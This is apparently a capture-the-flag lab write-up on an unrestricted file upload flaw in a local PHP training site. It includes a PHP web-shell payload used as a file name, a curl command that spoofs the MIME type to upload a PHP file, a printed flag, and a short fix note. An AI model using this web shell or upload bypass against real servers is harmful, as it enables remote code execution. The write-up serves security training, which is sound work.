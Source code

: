 ## [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

This vulnerability is on the File Upload page: http://localhost:8080/index.php?page=upload.

By tring to upload several files, we can see that we can seemingly only send `.jpg` or `.jpeg` files:

- `test.jpeg` → `/tmp/test.jpeg succesfully uploaded.`
- `test.png` → `Your image was not uploaded.`
- `test.php` → `Your image was not uploaded.`

Local file inclusion doesn't work here: http://localhost:8080/?page=../../../../../../../tmp and
http://localhost:8080/?page=../../../../../../../tmp/test.jpeg only say `You can DO it !!!  :]`.

We tried to execute code during the filename validation with a file called `'<?php system($_GET[cmd]); ?>.jpeg'`, however it only resutls in `/tmp/.jpeg succesfully uploaded.`.

With `curl`, by copying the request sent from a browser and hardcoding the MIME type to `image/jpeg`, we get the flag:

```console
$ curl -X POST 'http://localhost:8080/index.php?page=upload#' -H 'Content-Type: multipart/form-data' -F 'uploaded=@unrestricted_file_upload/resources/test.php;type=image/jpeg' -F 'MAX_FILE_SIZE=100000' -F 'Upload=Upload' | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3138    0  2739  100   399    547     79  0:00:05  0:00:05 --:--:--   720
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
```

The vulnerability can be fixed with stronger server-side validation, checking that the file corresponds to the MIME type.
